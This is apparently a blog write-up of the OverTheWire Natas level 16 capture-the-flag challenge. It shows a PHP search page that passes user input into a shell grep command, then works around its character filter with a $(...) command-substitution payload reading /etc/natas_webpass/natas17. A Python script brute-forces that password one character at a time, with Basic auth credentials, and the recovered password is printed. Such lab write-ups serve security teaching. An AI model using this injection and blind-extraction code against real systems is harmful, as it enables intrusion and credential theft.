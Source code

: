 ```yaml
---
layout: post
title: "Natas Level16 - Level17"
date: 2015-10-02 21:06:47
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 16 looks similar to the earlier challenges where we were got to search for a word in a flat document. However this time it says "For security reasons, we now filter even more on certain characters":

![Natas 16 search](/assets/img/screenshots/Natas_level16-1.png)

Lets open up the source and see what the difference is:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

Here is the regular expression that filters out the words:


    /[;|&`\'"]/


Basically any of the following characters are now disallowed: ; | & ' \ ' "

So any of our previous strings will not work. I remembered that you can execute commands within a string in bash by adding a: $(<<COMMANDHERE>>). My idea was to run the following code:

{% highlight bash %}
$(grep ^A /etc/natas_webpass/natas17)
{% endhighlight %}

If we run that and the first character is "A" the entire password will be returned. If "A" does not exist, an empty string will be returned. However, this won't work because even if we guess the correct letter grep will return the password and search for the password in the dictionary which does not exist. If we find a word that exists in the dictionary, we would be able to utilize the fact that grep returns an empty string when the letter is not found. Lets first find a word we can use, I just searched for the letter "a":

![Natas 16 search for a](/assets/img/screenshots/Natas_level16-2.png)

I'll use the word "African" and that would mean our query string will look something like:

{% highlight bash %}
$(grep ^A /etc/natas_webpass/natas17)African
{% endhighlight %}

Next I'll use the Burp Intruder to see if we can get just the first letter:

![Natas 16 search](/assets/img/screenshots/Natas_level16-3.png)

Looks like we got a hit! Now lets use a script. I'll copy most of it from the last challenge:

{% highlight python %}
import urllib
import urllib2
import pprint

url = 'http://natas16.natas.labs.overthewire.org/'
referrer = 'natas15.natas.labs.overthewire.org'
authorization = 'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='

Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
'6','7','8','9']

password = ""

#loop through possible length of password
for i in range(1, 33):
    print "%d out of 32" % (i)
    #loop through possible chars
    for j in range(0,len(Chars)):
        grep = '$(grep ^%s /etc/natas_webpass/natas17)African' % (password + Chars[j])
        values = {'needle' : grep,'submit' : 'Search'}
        req = urllib2.Request(url)
        req.add_data(urllib.urlencode(values))
        req.add_header('Referrer', referrer)
        req.add_header('Authorization', authorization)
        try:
            response = urllib2.urlopen(req)
            the_page = response.read()
            #print the_page
        except HTTPError, e:
            print e.reason
        if "African" not in the_page:
            password+=Chars[j]
            print password
            break
{% endhighlight %}

After that's done we get the following output:

    1 out of 32
    8
    2 out of 32
    8P
    3 out of 32
    8Ps
    4 out of 32
    ....
    27 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhP
    28 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
    29 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
    30 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
    31 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
    32 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

